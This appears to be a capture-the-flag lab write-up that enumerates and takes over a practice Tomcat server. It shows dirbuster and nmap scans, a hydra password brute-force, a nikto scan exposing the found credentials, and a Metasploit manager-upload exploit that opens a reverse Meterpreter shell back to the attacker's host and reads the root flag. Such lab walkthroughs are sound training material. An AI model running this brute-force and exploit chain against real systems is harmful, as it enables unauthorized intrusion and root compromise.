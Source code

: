 

Your challenge is to use the tools listed below to enumerate a server, gathering information along the way that will eventually lead to you taking over the machine.

* What directory can you find, that begins with a "g"?
  * Use dirbuster with the directory-list-lowercase-2.3-medium.txt wordlist and find the guidelines directory.
* Whose name can you find from this directory?
  * Inside that directory is a message: "Hey bob, did you update that TomCat server?"
* What directory has basic authentication?
  * Eventually the "protected" directory shows up in dirbuster.
* What is bob's password to the protected part of the website? 
```
kali@kali:~$ hydra -l bob -P rockyou.txt 10.10.70.1 http-get /protected
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-16 00:54:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.70.1:80/protected
[80][http-get] host: 10.10.70.1   login: bob   password: <censored>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-16 00:54:44
```
* What other port that serves a web service is open on the machine? Going to the service running on that port, what is the name and version of the software? What version of Apache-Coyote is this service using? What version of Apache-Coyote is this service using?
```
kali@kali:~$ nmap 10.10.70.1 -A
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a1:d2:2d:75:f2:94:5d:c2:51:b4:21:4f:8a:6a:b3:f2 (RSA)
|   256 7e:c6:52:14:6f:b1:3c:eb:42:21:4c:b1:6e:79:32:f3 (ECDSA)
|_  256 2e:95:75:35:15:2e:67:82:2c:98:4a:c3:9d:e3:ec:55 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above.
```
kali@kali:~$ nikto -host http://10.10.70.1:1234/manager/html -id bob:bubbles
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.70.1
+ Target Hostname:    10.10.70.1
+ Target Port:        1234
+ Start Time:         2020-11-16 01:08:20 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
...
...

* How many documentation files did Nikto identify?
  * Nikto took a very long time, but eventually discovered 5 files.
* Use Metasploit to exploit the service and get a shell on the system. What user did you get a shell as, and what text is in the file /root/flag.txt?
```
$ msfconsole -q
msf5 > search name:tomcat type:exploit
... # tried out multiple exploits, eventually found one that worked
... # set options based on previously found username:password and RPORT
msf5 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.14.4.59:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying ycK4cqc...
[*] Executing ycK4cqc...
[*] Sending stage (53944 bytes) to 10.10.70.1
[*] Undeploying ycK4cqc ...
[*] Meterpreter session 1 opened (10.14.4.59:4444 -> 10.10.70.1:44042) at 2020-11-16 01:24:34 -0500
meterpreter > shell
Process 1 created.
Channel 1 created.
whoami
root
cat /root/flag.txt
<censored>
```

